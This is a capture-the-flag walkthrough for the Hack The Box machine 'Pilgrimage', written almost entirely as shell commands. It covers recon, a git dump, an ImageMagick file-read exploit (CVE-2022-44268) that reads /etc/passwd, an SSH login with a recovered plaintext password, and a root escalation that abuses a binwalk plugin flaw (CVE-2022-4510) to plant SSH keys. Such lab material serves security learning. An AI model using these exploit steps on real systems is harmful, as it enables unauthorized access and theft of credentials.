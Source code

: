 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 📡 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.219
nmap -p 22,80 -sCV 10.10.11.219
nmap -p 22,80 -sCV pilgrimage.htb
```

### Add to `/etc/hosts`

```bash
echo "10.10.11.219 pilgrimage.htb" | sudo tee -a /etc/hosts
```

### Directory and subdomain fuzzing

```bash
ffuf -u http://pilgrimage.htb -H "Host: FUZZ.pilgrimage.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
feroxbuster -u http://pilgrimage.htb -x php
```

## 📥 Git Dump / Source Discovery

```bash
pipx install git-dumper
git-dumper http://pilgrimage.htb .git-dump
```

## 🧙 ImageMagick File Read — CVE-2022-44268

### Manual image with malicious metadata

```bash
pngcrush -text a "profile" "/etc/passwd" input.png
mv pngout.png malicious.png
```

### Identify output

```bash
identify -verbose shrunked_file.png
```

### Extract raw data from profile

```bash
identify -verbose shrunked.png | grep -Pv "^( |Image)" | xxd -r -p > outputfile
```

### Python POC

```bash
python CVE-2022-44268.py --image input.png --file-to-read /etc/passwd --output malicious.png
python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/<filename>.png
```

## 🧬 SQLite Extraction

```bash
sqlite3 pilgrimage.sqlite
.tables
.schema users
SELECT * FROM users;
```

## 🔐 [Initial Shell as emily](SSH)

```bash
sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
```

## 🔎 Enumeration (Local)

```bash
ps auxww
sudo -l
find / -perm -4000 -user root 2>/dev/null
```

### Test `inotifywait`

```bash
inotifywait -m -e create /dev/shm
echo "test" > /dev/shm/test.txt
```

## 🐚 Root PrivEsc — Binwalk Plugin Abuse (CVE-2022-4510)

### Check version

```bash
binwalk -h
```

### Create plugin image exploit (SSH via `authorized_keys` overwrite)

```bash
python walkingpath.py ssh exploit.png ~/keys/ed25519_gen.pub
```

### Upload it into monitored folder

```bash
scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

### Get root shell

```bash
ssh -i ~/keys/ed25519_gen root@pilgrimage.htb
```
